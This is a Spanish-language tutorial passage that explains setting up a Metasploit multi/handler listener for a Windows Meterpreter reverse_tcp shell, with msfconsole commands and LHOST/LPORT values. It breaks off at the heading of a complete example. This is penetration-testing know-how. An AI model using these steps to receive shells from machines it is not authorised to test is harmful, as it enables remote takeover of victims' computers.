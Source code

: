 ### 🧪 ¿Cómo usar un Connection Handler en Metasploit?

#### 📌 Paso 1: Abrir Metasploit

```bash
msfconsole
```

---

#### 📌 Paso 2: Usar el módulo de Connection Handler

```bash
use exploit/multi/handler
```

Este módulo no lanza ataques, solo **espera una conexión**.

---

#### 📌 Paso 3: Configurar el payload que estás esperando

Por ejemplo, un **payload reverse shell** de meterpreter para Windows:

```bash
set payload windows/meterpreter/reverse_tcp
```

---

#### 📌 Paso 4: Configurar la IP y puerto de escucha

```bash
set LHOST 192.168.1.100   # Tu IP local o pública
set LPORT 4444            # Puerto de escucha
```

Verifica con:

```bash
show options
```

---

#### 📌 Paso 5: Iniciar el handler

```bash
exploit
```

Ahora Metasploit está **escuchando activamente** en `192.168.1.100:4444`.

---

### 🔨 Ejemplo completo: Conexión con un payload manual

#### 🧱 Supuesto escenario
